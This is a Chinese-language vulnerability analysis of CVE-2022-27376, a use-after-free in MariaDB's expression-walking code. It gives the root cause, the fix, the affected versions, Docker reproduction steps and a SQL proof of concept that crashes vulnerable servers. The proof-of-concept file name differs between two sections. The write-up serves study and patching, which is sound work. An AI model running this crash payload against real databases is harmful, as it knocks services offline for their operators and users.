



# CVE-2022-27376 CWE-416 MariaDB UAF

## 漏洞背景

- **MariaDB ：**一款开源关系型数据库管理系统，由 MySQL 的创始人开发，与 MySQL 高度兼容。它具有高性能、高安全性、易于使用等特点，支持多种存储引擎，可保障数据的可靠存储与高效读写。同时，MariaDB 还具备强大的查询优化能力，能增强数据库性能，广泛应用于多种行业领域，为数据存储和管理提供有力支持。

## 漏洞原理

MariaDB 中 `Item_args::walk_arg` 在遍历/处理函数参数或表达式（例如虚拟/生成列和复杂表达式）时对某些子对象的内存生命周期管理不当：代码在遍历或转换参数过程中可能会提前释放或错误复用底层对象，随后又继续访问这块已被释放的内存，从而触发 use-after-free（内存释放后继续使用），导致进程崩溃。

## 漏洞定位


分析 MariaDB 10.6.3/10.6.5 源代码和 MDEV-26354 的 ASan 调用堆栈可以将问题定位到以下调用链：

1、`sql/item.h`中，`Item_args::walk_args()`（报告中第2742行）直接遍历`args[]`，调用子表达式的`walk()`；当回收的参数对象保留在虚拟列/默认值表达式树中时，将在此处读取释放的内存。
2. `sql/table.cc` 中的 `fix_session_vcol_expr()` 重新处理与会话相关的虚拟列表达式，并进入上述遍历路径。
3. `sql/sql_base.cc`中的`TABLE::fix_vcol_exprs()` / `fix_all_session_vcol_exprs()`在重新打开表并修复表达式时会触发此路径。

```cpp
bool walk_args(Item_processor processor, bool walk_subquery, void *arg)
{
  for (uint i= 0; i < arg_count; i++)
  {
    /* args[i] may refer to an object released during expression rebuilding. */
    if (args[i]->walk(processor, walk_subquery, arg))
      return true;
  }
  return false;
}
```

MDEV-26354的ASan报告明确标记了`Item_args::walk_args()`上的第一次非法读取，随后是堆栈帧为`fix_session_vcol_expr()`、`TABLE::fix_vcol_exprs()`和`lock_tables()`，与修改表结构并再次使用默认值/虚拟列表表达式的PoC触发方法一致。

## 漏洞修复


升级到 MariaDB 10.3.35、10.4.25、10.5.16、10.6.8、10.7.4 或包含 MDEV-26354 修复的对应分支更高版本。修复后的表达式生命周期管理逻辑可防止虚拟列或默认值表达式在其内存区释放后继续保留 `Item` 对象；因此，重新打开表时不会再把陈旧的 `args[]` 条目传递给 `Item_args::walk_args()`。

不存在仅通过配置即可完全规避该漏洞的方法。升级前，应限制不可信用户创建或修改包含生成列、表达式默认值的表，尤其是相关表达式依赖会话状态时；执行 DDL 后应重新建立受影响的会话，避免复用缓存的表元数据。

## 影响范围


**受影响的版本：** MariaDB：

- 10.3.0 至 10.3.34
- 10.4.0 至 10.4.24
- 10.5.0 至 10.5.15
- 10.6.0 至 10.6.7
- 10.7.0 至 10.7.3

## 环境搭建

启动 Docker 环境，MariaDB 版本为 10.6.3，管理员用户为 root，密码为 12345，存在一个数据库 test_db，开放端口为 3306，容器中已存在 PoC 文件 CVE-2022-27447-PoC.sql 。

```txt
NIST: NVD Base Score: 7.5 HIGHVector:  CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
```

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## 漏洞复现

1、进入容器命令行

```bash
docker exec -it mariadb-10.6.3 bash
```

2、使用 root 用户登录并连接数据库 test_db，密码为 12345

```sql
mariadb -u root -p test_db
```

3、执行 PoC 文件 CVE-2022-27376-PoC.sql，可以看到遇到断开了连接且容器自动关闭

```sql
source CVE-2022-27376-PoC.sql
```



4、查看 MariaDB 崩溃日志，可以看到检测出了 UAF 发生导致 DoS，且问题发生在`Item_args::walk_args`，与漏洞原理对应。

```bash
docker logs mariadb-10.6.3
```



## POC分析


```sql
CREATE TEMPORARY TABLE v0 ( v2 LONG VARBINARY DEFAULT ( USER ( ) REGEXP 'x' IS NULL IS NULL IS UNKNOWN ) NOT NULL , REPAIR BINARY , LIST TIMESTAMP , v1 INT ) ;
INSERT IGNORE INTO v0 VALUES ( v1 , 'x' , ( CONVERT ( v2 * ( 47347653.000000 - v1 ) * FALSE * 83516185.000000 , DATETIME ) SOUNDS LIKE 'x' ) , 'x' ) ;
ALTER TABLE v0 CONVERT TO CHARSET BINARY ;
INSERT HIGH_PRIORITY INTO v0 SELECT * FROM v0 USE INDEX FOR JOIN ( ) GROUP BY v1 , CONVERT ( v1 IS FALSE , BINARY ( 6934439.000000 ) ) IS NULL HAVING DEFAULT ( v2 ) NOT REGEXP 'x' IS NULL IS FALSE ;
INSERT INTO v0 SELECT SQL_CALC_FOUND_ROWS * FROM v0 WHERE v2 SOUNDS LIKE CURRENT_USER IS TRUE ORDER BY UTC_DATE LIKE FALSE ESCAPE 'x' IS NULL IS TRUE DESC ;
```

## 参考链接


[NVD - CVE-2022-27376](https://nvd.nist.gov/vuln/detail/CVE-2022-27376)

[[MDEV-26354\] MariaDB server crash in Field::set_default - ASAN use after free in Item_args::walk_arg - Jira](https://jira.mariadb.org/browse/MDEV-26354)
